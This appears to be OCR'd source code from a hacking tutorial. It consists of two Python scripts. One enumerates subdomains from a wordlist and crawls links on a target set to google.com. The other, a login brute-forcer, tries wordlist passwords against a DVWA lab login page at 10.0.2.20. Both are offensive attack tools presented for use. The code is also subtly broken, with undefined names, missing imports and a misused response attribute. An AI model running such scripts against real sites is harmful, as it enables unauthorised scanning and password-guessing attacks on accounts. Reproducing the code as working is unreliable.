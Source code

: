 ```
def find_subdomains_from_wordlist(target_url):
	with open("subdomains.list", "r") as wordlist:
	
		for line in wordlist:
			test_url = line.strip() + "." + target_url
			response = request(test_url)
			
			if response:
				print("[+] Discovered subdomain --> " + test_url)	
	
def extract_links(url):
	response = request(url)
	
	if response:
		return re.findall('(?:href=")(.*?)"', response.content().decode(errors="ignore"))
	
def crawl(url):
		href_links = extract_links(url)
		
		for link in href_links:
			link = urlparse.urljoin(target_url, link)
			
			if "#" in link:
				link = link.split('#')[0]
			
			if target_url in link and link not in target_links:
				target_links.append(link)
				print(link)
				crawl(link)
		
target_url = "google.com"

find_subdomains_from_wordlist(target_url)
crawl(target_url)			

```

```
#!/usr/bin/env python

# login_bruteforcer.py

import requests

target_url = "http://10.0.2.20/dvwa/login.php"
data_dict = {"username":"admin", "password":"", "Login":"submit"}

with open("passwords.list", "r") as wordlist:
	for line in wordlist:
		word = line.strip()
		data_dict["password"] = word
		response = requests.post(target_url, data=data_dict)
		if "Login failed" not in response.content():
			print("[+] Password found --> " + word)
			exit()
		
print("\n...End of program...\n")

```

---
